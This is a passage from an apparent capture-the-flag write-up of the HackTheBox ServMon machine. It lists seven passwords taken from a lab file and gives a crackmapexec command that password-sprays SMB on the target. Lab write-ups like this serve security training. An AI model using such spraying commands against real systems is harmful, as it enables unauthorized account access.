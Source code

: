 Now as we saw while enumerating FTP, there is a **Passwords.txt** file in Nathan's Desktop: 

![](/assets/img/htb/machines/windows/easy/servmon/Passwords.png)

It contains several passwords that we can use for brute-forcing/password spraying attacks:

- `1nsp3ctTh3Way2Mars!`
- `Th3r34r3To0M4nyTrait0r5!`
- `B3WithM30r4ga1n5tMe`
- `L1k3B1gBut7s@W0rk`
- `0nly7h3y0unGWi11F0l10w`
- `IfH3s4b0Utg0t0H1sH0me`
- `Gr4etN3w5w17hMySk1Pa5$`

___

## Foothold

### Password spraying

#### SMB (port 445)

```bash
$ crackmapexec smb $TARGET -u Users.txt -p Passwords.txt 
```

![](/assets/img/htb/machines/windows/easy/servmon/crackmapexec_smb.png)

